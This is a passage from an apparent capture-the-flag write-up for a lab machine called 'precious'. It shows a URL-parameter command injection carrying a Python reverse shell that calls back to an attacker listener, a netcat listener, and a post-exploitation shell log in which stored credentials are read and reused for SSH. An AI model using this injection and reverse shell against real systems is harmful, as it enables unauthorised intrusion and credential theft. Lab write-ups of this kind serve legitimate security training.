 This is mix the exploit method and the revshell.
```
http://[Machine_IP]/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.93",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```

Before run the exploit, Don't forget to run the listener.

### Maintaining Access / Post Exploitation

`nc -lvnp 4444`

```
listening on [any] 4444 ...
connect to [10.10.14.93] from (UNKNOWN) [10.10.11.189] 37940
$ whoami
whoami
ruby
$ ls -la
ls -la
total 32
drwxr-xr-x 5 ruby ruby 4096 Dec  6 01:55 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4096 Dec  6 01:04 .cache
drwx------ 3 ruby ruby 4096 Dec  6 01:49 .gnupg
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
$ cd .bundle
cd .bundle
$ ls
ls
config
$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q***H"
```

We're inside the ruby machine. And we got the another user.

We can use ssh to enter the henry machine.

```
ssh henry@10.10.11.189
henry@precious:~$ whoami
henry
henry@precious:~$ ls
user.txt
henry@precious:~$ cat user.txt
d****b
```
